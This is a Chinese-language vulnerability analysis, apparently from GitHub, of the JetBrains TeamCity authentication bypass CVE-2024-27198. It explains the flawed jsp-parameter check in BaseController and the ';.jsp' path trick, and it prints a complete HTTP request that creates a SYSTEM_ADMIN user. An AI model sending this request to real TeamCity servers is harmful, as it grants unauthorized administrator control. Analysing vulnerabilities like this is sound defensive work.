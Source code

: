 - [JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)](#jetbrains-teamcity-身份验证绕过漏洞cve-2024-27198)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [请求处理逻辑](#请求处理逻辑)
    - [认证绕过](#认证绕过)
    - [创建用户](#创建用户)
  - [漏洞补丁](#漏洞补丁)
  - [参考](#参考)

# JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)
## 影响版本
< 2023.11.4
## 环境搭建
https://download-cdn.jetbrains.com.cn/teamcity/TeamCity-2023.11.3.exe  
>DEBUG: 修改bin目录teamcity-server-internal.bat中
![](img/14-49-46.png)
## 漏洞原理
### 请求处理逻辑
JetBrains TeamCity使用SpringMVC框架,
漏洞位于`web-openapi.jar!\jetbrains\buildServer\controllers\BaseController.class`中,
这是一个抽象类,大部分的controller都继承于该抽象类,其中重新定义了Controller的处理请求的一些通用方法。  
首先就是自定义的`handleRequest`方法,这是springMVC Dispatcher将请求转发到controller时执行的第一个方法。  
![](img/15-42-27.png)  
其中首先就是检查当前Controller是否支持请求方式为OPTIONS,然后就会进入下面的`handleRequestInternal`方法。  
![](img/15-45-51.png)  
然后通过Controller的`doHandle`方法来处理当前请求,最后返回一个ModelAndView视图。  
可以看到当返回的视图不为空且不是重定向视图时就会进入`this.updateViewIfRequestHasJspParameter(request, modelAndView);`方法。其方法实现如下:  
![](img/15-48-13.png)  
首先会进行一个判断,即当前视图的视图名称不为空,且当前请求的ServletPath不是以.jsp结尾时,`isControllerRequestWithViewName`的值则为true,否则为false,即判断当前请求不是jsp请求而是mvc形式的请求。而从方法名也可以看出,该方法主要是当请求中含有jsp参数时会重新设置返回的视图。  
接下来则会从请求中尝试获取jsp参数的值。  
![](img/15-55-54.png)  
其中只要请求中的jsp参数值以`.jsp`结尾且不包含`admin/`就会直接返回该参数值,即认为当前请求是请求的jsp文件,这里也可以猜到除了admin路径的jsp文件,其它jsp文件应该是不需要认证的。  
然后就会将当前返回视图对象设置为得到的jsp参数值。
### 认证绕过
总结上面的整个逻辑,其像实现的逻辑其实就是当一个springMVC Controller的请求中如果携带jsp参数,则将请求重定向到对应的jsp文件中。 

逻辑漏洞位于对jsp参数请求的路径是否是jsp文件的判定上,应用简单的使用`endwith`方法来判断其请求的路径是否是jsp文件,然而这很容易使用经典的`;`符号绕过,对于`/a/b/c;.jsp`这样的路径其请求的真实路径其实是`/a/b/c`,但符合`endsWith(".jsp")`的判定。  

最后只需要找到一个不需要认证的controller进入这段逻辑即可,而应用中有一个PageNotFoundController则可以恰好利用,随意访问一个不存在的路径携带构造好的jsp参数即可触发漏洞。  
以请求/app/rest/server为例。 
![](img/16-16-55.png)   
构造`jsp=/app/rest/server;.jsp`,原本的404.jsp则会被替换为`/app/rest/server;.jsp`即`/app/rest/server`.  
![](img/16-15-28.png)  
![](img/16-16-20.png)
### 创建用户
作为实际利用时可以通过/app/rest/users接口来创建管理员
```http
POST /anyrequest?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 192.168.18.35:8111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: TCSESSIONID=57DD8A41C3D9CA88F59A63CE4CEC8FDB; __test=1
Connection: close
Content-Type: application/json
Content-Length: 131

{"username": "test", "password": "admin", "email": "test@gmail.com", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```
![](img/16-27-51.png)  
![](img/16-28-56.png)
## 漏洞补丁
更新后的版本中并没有对漏洞逻辑进行修改,增加了一些黑名单校验的东西(补丁都是混淆的),使用原来的poc会直接返回403 Access denied.
## 参考
https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/